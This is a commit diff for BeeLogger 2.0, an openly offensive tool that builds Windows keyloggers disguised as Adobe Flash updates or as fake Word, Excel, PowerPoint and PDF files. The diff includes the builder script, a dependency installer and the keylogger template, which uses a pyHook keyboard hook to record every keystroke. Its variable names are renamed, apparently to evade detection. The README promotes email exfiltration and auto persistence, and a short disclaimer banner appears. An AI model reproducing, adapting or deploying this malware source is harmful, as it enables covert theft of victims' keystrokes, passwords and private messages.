

Version 2.0 Released

diff --git a/bee.py b/bee.py
@@ -1,5 +1,5 @@
-#/usr/bin/python
-# -*- coding: iso-8859-15 -*-
+#!/usr/bin/env python
+# -*- coding: utf-8 -*-
 # Copyright 2017 BeeLogger
 # Written by: * Alisson Moretto - 4w4k3
 # https://github.com/4w4k3/BeeLogger
@@ -16,10 +16,10 @@ def begin():
     email = raw_input('Type your email to receive logs: ')
     epass = raw_input('Type your email password: ')
     print '\n'
-    print '###############################'
-    print ' email: ' + email
-    print ' password: ' + epass
-    print '###############################'
+    print '[ * * * * * * * * * * * * * * * * * * * * * * * * * ]'
+    print '\n   email: ' + email
+    print '   password: ' + epass 
+    print '\n[ * * * * * * * * * * * * * * * * * * * * * * * * * ]'
     print '\n'    
     ask = raw_input('These info above are correct? (y/n) :')
     if ask == 'y':
@@ -59,10 +59,10 @@ def warn():
    *:ZZZZZZZ       %%%%%%%%%%%%%%%%%%%%%ZZZZ    ZZZZZZZ
   *::::ZZZZZZ         %%%%%%%%%%%%%%%ZZZZZZZ      ZZZ
    *::ZZZZZZ           Z%%%%%%%%%%%ZZZZZZZ%%
-     ZZZZ              ZZZZZZZZZZZZZZZZ%%%%%''' + RED + '''  # Dɪsᴄʟᴀɪᴍᴇʀ Aʟᴇʀᴛ #''' + YELLOW +  ''' 
-                      %%%ZZZZZZZZZZZ%%%%%%%%''' + WHITE + '''  Nᴏᴛ ʀᴇsᴘᴏɴsɪʙʟᴇ ꜰᴏʀ ᴍɪsᴜsᴇ ''' + YELLOW + '''
-                     Z%%%%%%%%%%%%%%%%%%%%%''' + WHITE + '''  ᴀɴᴅ ꜰᴏʀ ɪʟʟᴇɢᴀʟ ᴘᴜʀᴘᴏsᴇs.''' + YELLOW + '''
-                     ZZ%%%%%%%%%%%%%%%%%%%''' + WHITE + ''' Usᴇ ɪᴛ ᴊᴜsᴛ ꜰᴏʀ''' + RED + ''' ᴡᴏʀᴋ''' + WHITE + ''' ᴏʀ ''' + RED + '''ᴇᴅᴜᴄᴀᴛɪᴏɴᴀʟ''' + WHITE + ''' !
+     ZZZZ              ZZZZZZZZZZZZZZZZ%%%%%''' + RED + '''  # Disclaimer Alert #''' + YELLOW +  ''' 
+                      %%%ZZZZZZZZZZZ%%%%%%%%''' + WHITE + '''  Not Responsible For Misuse ''' + YELLOW + '''
+                     Z%%%%%%%%%%%%%%%%%%%%%''' + WHITE + '''  And For Illegal Purposes.''' + YELLOW + '''
+                     ZZ%%%%%%%%%%%%%%%%%%%''' + WHITE + ''' Use it just for''' + RED + ''' WORK''' + WHITE + ''' or ''' + RED + '''EDUCATIONAL''' + WHITE + ''' !
 ''')
 
 BLUE, RED, WHITE, YELLOW, MAGENTA, GREEN, END = '\33[94m', '\033[91m', '\33[97m', '\33[93m', '\033[1;35m', '\033[1;32m', '\033[0m'
@@ -72,27 +72,17 @@ def heading():
     sys.stdout.write(YELLOW + '''
 
                 .' '. I BEE YOU  __
-       .        .   .          \(__\_/             Version: 1.0
+       .        .   .          \(__\_/             Version: 2.0
         .         .         . -{{#(|8)
           ' .  . ' ' .  . '    /(__/ \      by:''' + WHITE + ' Alisson Moretto (' + YELLOW + '4w4k3' + WHITE + ')' + '\n' + '\n' + END) 
     print ' {0}[{1}K{0}]{1} Generate Keylogger  {0}[{1}U{0}]{1} Update  {0}[{1}Q{0}]{1} Quit  '.format(YELLOW, WHITE) + '\n'
 def pp():
     sys.stdout.write(GREEN + '''Thank You for using Bee, Think Great, Fly High!  \n''' + END)
 def option():
-    print ' {0}[{1}1{0}]{1} Aᴅᴏʙᴇ Fʟᴀsʜ Uᴘᴅᴀᴛᴇ '.format(BLUE, WHITE) + '\n' + ' {0}[{1}2{0}]{1} Fᴀᴋᴇ Wᴏʀᴅ ᴅᴏᴄx '.format(BLUE, WHITE) + '\n' + ' {0}[{1}3{0}]{1} Fake Excel xlsx '.format(BLUE, WHITE) + '\n' + ' {0}[{1}4{0}]{1} Fᴀᴋᴇ Pᴏᴡᴇʀᴘᴏɪɴᴛ ᴘᴘᴛx '.format(BLUE, WHITE) + '\n' + ' {0}[{1}5{0}]{1} Fᴀᴋᴇ Aᴄʀᴏʙᴀᴛ ᴘᴅꜰ '.format(BLUE, WHITE) + '\n' + ' {0}[{1}6{0}]{1} Bʟᴀɴᴋ Exᴇᴄᴜᴛᴀʙʟᴇ '.format(BLUE, WHITE) 
+    print ' {0}[{1}1{0}]{1} Adobe Flash Update '.format(BLUE, WHITE) + '\n' + ' {0}[{1}2{0}]{1} Fake Word docx '.format(BLUE, WHITE) + '\n' + ' {0}[{1}3{0}]{1} Fake Excel xlsx '.format(BLUE, WHITE) + '\n' + ' {0}[{1}4{0}]{1} Fᴀᴋᴇ Powerpoint pptx '.format(BLUE, WHITE) + '\n' + ' {0}[{1}5{0}]{1} Fake Acrobat pdf '.format(BLUE, WHITE) + '\n' + ' {0}[{1}6{0}]{1} Blank Executable '.format(BLUE, WHITE) 
 def main():
     clear()
-    path = '.OK'
-    if os.path.isdir(path):
-        pass
-    else:
-        ab = raw_input('Dependencies not found, Do you want install it? (y/n): ')
-        if ab.upper() == 'Y':
-            os.system('sudo python2.7 checker.py')
-        elif ab.upper() == 'YES':
-            os.system('sudo python2.7 checker.py')
-        else:
-            sys.exit(0)
+    os.system("python2.7 look.py")
     clear()
     warn()
     raw_input('                                                PRESS [ENTER] TO CONTINUE')
@@ -121,7 +111,7 @@ def main():
                 clear()
                 heading()
                 os.system('sudo rm -Rf Templates/k_enc.py')
-                print '\n {0}[*] Sᴀᴠᴇᴅ ᴛᴏ:  {1}'.format(GREEN, END) + 'dist/' + name
+                print '\n {0}[*] Saved to:  {1}'.format(GREEN, END) + 'dist/' + name
             if choice == '1':
                 begin()
                 os.system('wine /root/.wine/drive_c/Python27/python.exe /root/.wine/drive_c/Python27/Scripts/pyinstaller-script.py --noconsole -m Manifest/manifest.manifest --version-file=Resource/adobe.Bee -i Icons/flash.ico -F k.py')
@@ -130,7 +120,7 @@ def main():
                 os.rename('dist/k.exe', 'dist/' + name)
                 clear()
                 heading()                              
-                print '{0}[*] Sᴀᴠᴇᴅ ᴛᴏ:  {1}'.format(GREEN, END) + 'dist/' + name           
+                print '{0}[*] Saved to:  {1}'.format(GREEN, END) + 'dist/' + name           
             elif choice == '2':
                 begin()
                 os.system('wine /root/.wine/drive_c/Python27/python.exe /root/.wine/drive_c/Python27/Scripts/pyinstaller-script.py --noconsole -m Manifest/manifest.manifest --version-file=Resource/word.Bee -i Icons/word.ico -F k.py')
@@ -139,7 +129,7 @@ def main():
                 os.rename('dist/k.exe', 'dist/' + name)
                 clear()
                 heading()                                              
-                print '{0}[*] Sᴀᴠᴇᴅ ᴛᴏ:  {1}'.format(GREEN, END) + 'dist/' + name
+                print '{0}[*] Saved to:  {1}'.format(GREEN, END) + 'dist/' + name
             elif choice == '3':
                 begin()
                 os.system('wine /root/.wine/drive_c/Python27/python.exe /root/.wine/drive_c/Python27/Scripts/pyinstaller-script.py --noconsole -m Manifest/manifest.manifest --version-file=Resource/excel.Bee -i Icons/excel.ico -F k.py')
@@ -148,7 +138,7 @@ def main():
                 os.rename('dist/k.exe', 'dist/' + name)
                 clear()
                 heading()                                              
-                print '{0}[*] Sᴀᴠᴇᴅ ᴛᴏ:  {1}'.format(GREEN, END) + 'dist/' + name
+                print '{0}[*] Saved to:  {1}'.format(GREEN, END) + 'dist/' + name
             elif choice == '4':
                 begin()
                 os.system('wine /root/.wine/drive_c/Python27/python.exe /root/.wine/drive_c/Python27/Scripts/pyinstaller-script.py --noconsole -m Manifest/manifest.manifest --version-file=Resource/powerpoint.Bee -i Icons/powerpoint.ico -F k.py')
@@ -157,7 +147,7 @@ def main():
                 os.rename('dist/k.exe', 'dist/' + name)
                 clear() 
                 heading()                                              
-                print '{0}[*] Sᴀᴠᴇᴅ ᴛᴏ:  {1}'.format(GREEN, END) + 'dist/' + name
+                print '{0}[*] Saved to:  {1}'.format(GREEN, END) + 'dist/' + name
             elif choice == '5':
                 begin()
                 os.system('wine /root/.wine/drive_c/Python27/python.exe /root/.wine/drive_c/Python27/Scripts/pyinstaller-script.py --noconsole -m Manifest/manifest.manifest --version-file=Resource/acrobat.Bee -i Icons/acrobat.ico -F k.py')
@@ -166,7 +156,7 @@ def main():
                 os.rename('dist/k.exe', 'dist/' + name)
                 clear()
                 heading()                                              
-                print '{0}[*] Sᴀᴠᴇᴅ ᴛᴏ:  {1}'.format(GREEN, END) + 'dist/' + name
+                print '{0}[*] Saved to:  {1}'.format(GREEN, END) + 'dist/' + name
             if choice.upper() == 'U' or choice.upper() == 'UPDATE':
 		os.system('python2.7 updater.py')
             if choice.upper() == 'EXIT' or choice.upper() == 'CLOSE':

diff --git a/look.py b/look.py
@@ -1,0 +1,84 @@
+#!/usr/bin/env python
+# -*- coding: utf-8 -*-
+# Copyright 2017 BeeLogger
+# Written by: * Alisson Moretto - 4w4k3
+# https://github.com/4w4k3/BeeLogger
+# Licensed under the BSD-3-Clause
+import os
+import sys
+import platform
+
+os.system('clear')
+print '''\n ### PLEASE DON'T INTERRUPT THE INSTALLATION OF DEPENDENCIES ###\n'''
+
+def banner(text, char="*"):
+    print(char * len(text) + "****")
+    print(char + " " + text + " " + char)
+    print(char * len(text) + "****")
+
+checker = platform.architecture()
+if checker[0] == "64bit":
+    if os.path.exists('.ARCHADDED'):
+        print "OK"
+    else:
+        print "You're running 64bit System, its necessary install i386 arch."
+        a = raw_input("Do you wanna continue? (y/n) [This can take a few moments]: ")
+        if a.upper() == "Y":
+            os.system('sudo dpkg --add-architecture i386')
+            os.system('sudo apt-get dist-upgrade -yy && apt-get upgrade -yy')
+            os.system('sudo apt-get -f install')
+            os.system('mkdir .ARCHADDED')
+        else:
+            sys.exit(0)
+else:
+    print "Arch i386 FOUND."
+
+banner(" ~ SEARCHING FOR WGET")
+abc = os.system('which wget')
+if len(str(abc)) == 1:
+    print "[*] WGET FOUND"
+else:
+    print "[!] WGET NOT FOUND, INSTALLING IT"
+    os.system("sudo apt-get install wget -y")
+
+banner(" ~ SEARCHING FOR WINE")
+abc = os.system('which wine')
+if len(str(abc)) == 1:
+    print "[*] WINE FOUND"
+else:
+    print "[!] WINE NOT FOUND, INSTALLING IT"
+    os.system("sudo apt-get install wine -y")
+    os.system("sudo apt-get install wine32 -y")
+    os.system('sudo apt-get install winbind -y')
+
+banner(" ~ SEARCHING FOR PYTHON2.7 ON WINE")
+if os.path.exists('/root/.wine/drive_c/Python27'):
+    print '/root/.wine/drive_c/Python27'
+    print "[*] PYTHON 2.7 FOUND"
+else:
+    print "[!] PYTHON 2.7 NOT FOUND, INSTALLING IT"
+    os.system('sudo wine msiexec /i python-2.7.12.msi /L*v log.txt')
+
+banner(" ~ SEARCHING FOR PYWIN32")
+if os.path.isfile("/root/.wine/drive_c/Python27/Removepywin32.exe"):
+    print "/root/.wine/drive_c/Python27/Removepywin32.exe"
+    print "[*] PYWIN32 FOUND"
+else:
+    print "[!] PYWIN32 NOT FOUND, INSTALLING IT"
+    os.system('sudo wine pywin32-220.win32-py2.7.exe')
+
+banner(" ~ SEARCHING FOR PYHOOK")
+if os.path.isfile("/root/.wine/drive_c/Python27/RemovepyHook.exe"):
+    print "/root/.wine/drive_c/Python27/RemovepyHook.exe"
+    print "[*] PYHOOK FOUND"
+else:
+    print "[!] PYHOOK NOT FOUND, INSTALLING IT"
+    os.system('sudo wine pyHook-1.5.1.win32-py2.7.exe')
+
+banner(" ~ SEARCHING FOR PYINSTALLER")
+if os.path.isfile("/root/.wine/drive_c/Python27/Scripts/pyinstaller.exe"):
+    print "/root/.wine/drive_c/Python27/Scripts/pyinstaller.exe"
+    print "[*] PYINSTALLER FOUND"
+else:
+    print "[!] PYINSTALLER NOR FOUND, INSTALLING IT"
+    os.system('sudo wine /root/.wine/drive_c/Python27/python.exe -m pip install pyinstaller')

diff --git a/Templates/Bee.py b/Templates/Bee.py
@@ -1,4 +1,5 @@
-import pythoncom, pyHook
+import pythoncom
+import pyHook
 from os import path
 from sys import exit
 import threading
@@ -11,11 +12,12 @@ from _winreg import *
 import shutil
 import sys
 
-mutex = win32event.CreateMutex(None, 1, 'N0tAs519n')
+ironm = win32event.CreateMutex(None, 1, 'NOSIGN')
 if win32api.GetLastError() == winerror.ERROR_ALREADY_EXISTS:
-    mutex = None
-    print "err"
-    exit(0)
+    ironm = None
+    print "nope"
+    sys.exit(0)
+
 x=''
 data=''
 count=0
@@ -77,40 +79,40 @@ if __name__ == '__main__':
 def pushing(event):
     global x,data
     if event.Ascii==13:
-        e4Ch=' [ENTER] '
+        kkss=' [ENTER] '
     elif event.Ascii==8:
-        e4Ch=' [BACKSPACE] '
+        kkss=' [BACKSPACE] '
     elif (event.Ascii == 162 or event.Ascii == 163):
-        e4Ch = ' [CTRL] '
+        kkss = ' [CTRL] '
     elif (event.Ascii == 164 or event.Ascii == 165):
-        e4Ch = ' [ALT] '
+        kkss = ' [ALT] '
     elif (event.Ascii == 160 or event.Ascii == 161):
-        e4Ch = ' [SHIFT] '
+        kkss = ' [SHIFT] '
     elif (event.Ascii == 46):
-        e4Ch = ' [DELETE] '
+        kkss = ' [DELETE] '
     elif (event.Ascii == 32):
-        e4Ch = ' [SPACE] '
+        kkss = ' [SPACE] '
     elif (event.Ascii == 27):
-        e4Ch = ' [ESC] '
+        kkss = ' [ESC] '
     elif (event.Ascii == 9):
-        e4Ch = ' [TAB] '
+        kkss = ' [TAB] '
     elif (event.Ascii == 20):
-        e4Ch = ' [CAPSLOCK] '
+        kkss = ' [CAPSLOCK] '
     elif (event.Ascii == 38):
-        e4Ch = ' [UP] '
+        kkss = ' [UP] '
     elif (event.Ascii == 40):
-        e4Ch = ' [DOWN] '
+        kkss = ' [DOWN] '
     elif (event.Ascii == 37):
-        e4Ch = ' [LEFT] '
+        kkss = ' [LEFT] '
     elif (event.Ascii == 39):
-        e4Ch = ' [RIGHT] '
+        kkss = ' [RIGHT] '
     elif (event.Ascii == 91):
-        e4Ch = ' [SUPER] '
+        kkss = ' [SUPER] '
     else:
-        e4Ch=chr(event.Ascii)
-    data=data+e4Ch 
+        kkss=chr(event.Ascii)
+    data=data+kkss 
     
-obj = pyHook.HookManager()
-obj.KeyDown = pushing
-obj.HookKeyboard()
+hee = pyHook.HookManager()
+hee.KeyDown = pushing
+hee.HookKeyboard()
 pythoncom.PumpMessages()

diff --git a/README.md b/README.md
@@ -1,13 +1,12 @@
 # BeeLogger
+
 Copyright 2017 BeeLogger
 Written by: * **Alisson Moretto** - [4w4k3](https://github.com/4w4k3)
 Twitter: @4w4k3Official
 
-## Windows version will be available soon.
-Generate gmail emailing keyloggers to windows, powered by python and compiled by pyinstaller.
-With auto persistence this tool is powerful.
-
-Next Update: 03/26/17
+~ NEW VERSION RELEASED: 2.0 ~
+-> Better way to check dependencies to fix some errors added.
+-> Disabled TimeSleep to don't lost keys.
 
 ## DISCLAIMER: 
 
